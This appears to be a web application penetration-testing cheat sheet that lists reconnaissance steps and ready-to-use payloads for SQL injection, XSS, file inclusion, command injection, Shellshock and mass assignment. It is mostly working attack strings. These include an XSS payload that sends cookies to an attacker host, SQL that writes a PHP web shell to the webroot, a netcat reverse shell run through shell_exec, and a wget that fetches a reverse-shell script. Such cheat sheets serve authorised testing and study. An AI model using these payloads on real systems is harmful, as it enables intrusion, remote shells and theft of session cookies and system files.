 # Web Applications

- [Information Gathering](#information-gathering)
- [Testing](#testing)
- [Authorization](#authorization)
- [Path Traversal](#path-traversal)
- [SQL Enumerate](#sql-enumerate)
- [SQL Blind](#sql-blind)
- [SQL Web Shell](#sql-web-shell)
- [IFRAME](#iframe)
- [XSS](#xss)
- [Code Injection](#code-injection)
- [LFI](#lfi)
- [RFI](#rfi)
- [Command Injection](#command-injection)


## Information Gathering

Fingerprint Server HEAD request, httprint
Review Metadata Robots.txt, curl -O http://$ip/robots.txt
Enumerate Applications Spider, Dirb
Review comments nmap http-comments, wget recursive, curl?
Identify Entry points parameters, cookies, sessionids, verbs
Test by path, data flow, or race
Identify App Framework curl for X-Powered-By, look in comments, sourcecode, (php, aspx, jsp), Use whatweb
Fingerprint WebApp whatweb
Map WebApp architecture proxies, databases,

## Testing

Known Server Vulnerabilities, Administrative Interfaces
Configurations, logs viewable? php.ini, apache, .asa, .inc,
Check for sensitive info backups, usernames, passwords, tokens, keys,
Directory Enumeration Dirb
Web framework Default logins http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php
  https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/
HTTP Methods PUT, DELETE, curl OPTIONS
HSTS Header $ curl -s -D- https://domain.com/ | grep Strict

Configuration Can you log in, sign up, upload files, download
Authentication error messages generic or do they give info
Password Attack guessable usernames, weak password & lockout policy, weak secret question/answer, password reset
Credentials over HTTP
Default credentials admin accounts, new accounts
Auth Bypass Forced browsing, parameter modification, session ID prediction, SQL injection

## Authorization

Path traversal/file includes request parameters used for file operations
  Unusual extensions, interesting parameter names, parameters in cookies
  Test internal files, local files, remote files
  Source code, hxxp://example.com/main.cgi?home=main.cgi
  Test with URL encoding and double URL encoding
Direct object reference find where user input is used to reference objects directly

‘ OR 1=1 -- in both fields
     Capture post data with Burp
     Sqlmap –u $site/php --method post --data=”username=asdfasdf" --not-string="Username or Password is invalid”

## Path Traversal

dotdotpwn
dotslash                                    ../../../etc/passwd
starting path                           /var/www/files/../../../etc/password
file extension                         ../../../etc/passwd.png%2500

## SQL Enumerate

‘ OR 1=1 --
One record allowed             ‘ OR 1=1 LIMIT 1 --
If ticks are filtered                  \ (in username) or 1=1# (in password) username=’ \’ and password = ‘ or 1=1#
Sql query in URL                    username%3d’hacker’%20OR%201=1%3B%23
Add onto query                     ?limit=4%20union%20all%20select%20*%20from%20users
Remove SQL                           ?group=username (just delete it)
encoded spaces                    ‘%09OR%091=1%09--%09
comments                               ‘/**/OR/**/’1’=’1
unquoted integer                 id=2 OR 1=1
add new line                           id=2%0aOR 1=1
         comment.php?id=738 order by 7
lang=' UNION ALL SELECT 1,user(),database(),4,@@version,6;#
lang=' UNION ALL SELECT 1,2,name,4,password,6 FROM users;#

     MySQL
     SELECT schema_name FROM information_schema.schemata;
     SELECT table_name FROM information_schema.tables;
     SELECT column_name FROM information_schema.columns;

     MSSQL
     SELECT name FROM sys.databases
     SELECT name FROM sys.tables
     SELECT name FROM sys.columns

     ORACLE
     SELECT owner FROM all_tables
     SELECT table_name FROM all_tables
     SELECT column_name FROM all_tab_columns

## SQL Blind
     comment.php?id=738-sleep(5)
     comment.php?id=738 union all select 1,2,3,4,load_file("c:/windows/system32/drivers/hosts"),6
     comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE      'c:/xampp/htdocs/backdoor.php'

## SQL Web Shell
     ' UNION ALL SELECT 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php';#

## IFRAME
     <iframe SRC="hxxp://$ip:81/exploit" height = "0" width = "0"></iframe>

## XSS
<script>new Image().src="hxxp://$ip:443/bogus.php?output="+document.cookie;</script>
sCript
<scr<script>ipt>
<a onmouseover=alert('Boo!'); /a>
prompt, confirm instead of alert
dude"; alert('Boo!');//
example8.php/%20%20method="POST">%20%20%20%20%20%20<scRipt>confirm('Boo!');</sCript>%20///
example9.php#<script>alert('Boo!'); </script> ////

## Code Injection
System %22.system(%27hostname%27)%3B%23 “.system (‘hostname’);#
complete code order=id)%3B}system(%27cat%20/etc/passwd%27)%3B%23 id);} system (‘cat /etc/passwd’);#
add on ‘ .system(‘uname –a’).’

## LFI
     LFI If a phpinfo() file is present, it’s usually possible to get a shell

Just webroot? --> config files
More than webroot --> /etc/passwd
     curl -v "http://$ip/" -b "lang=../../../../../etc/passwd"

Write files to server? --> PHP web shell
     <?php echo shell_exec("C:\\nc.exe $ip 443 -e cmd.exe");?>

page=../../../../etc/passwd
page=../../../../etc/passwd%00
hxxp://127.0.0.1/fileincl/example1.php?page=expect://ls
hxxp://192.168.183.128/fileincl/example1.php?page=php://input
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
hxxp://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

## RFI
     %3F&cmd=C:\nc.exe%2010%2E11%2E0%2E30%20443%20%2De%20cmd%2Eexe
     &LANG=../../../../../../../xampp/apache/logs/access.log%00
     <?php echo shell_exec('ipconfig')'; ?>

## Command Injection
Commix
if fail, execute X || cat /etc/passwd
add a new line %0acat /etc/passwd
telnet telnet $ip 80, then: GET /path/to/page.php?ip=127.0.0.1|cat+/etc/passwd/search.php?storedsearch=\$mysearch%3dwahh;%20echo%20file_get_contents('/etc/passwd')
curl -A "() { 42;};echo;/bin/cat /etc/passwd" $url
curl -A " () { 42;};echo;/usr/bin/id " $url

curl -A " () { 42;};echo; ping -c 4 $ip " $url

curl -A " () { 42;};echo; nslookup $site " $url

First try netcat backdoor, if no then try php web shell

### Authorization
     Navigate to pages without authorization
     Navigate to other users pages after authentication
     Navigate to other users links (can't view but can edit)

### Mass Assignment
  Add parameter &user%5Badmin%5D=1 ‘user [admin] = 1’
  Update value update_profile?user[username]=test&user[admin]=1
  Add value update_profile?user[company_id]=2

### Third Party
     Yasuo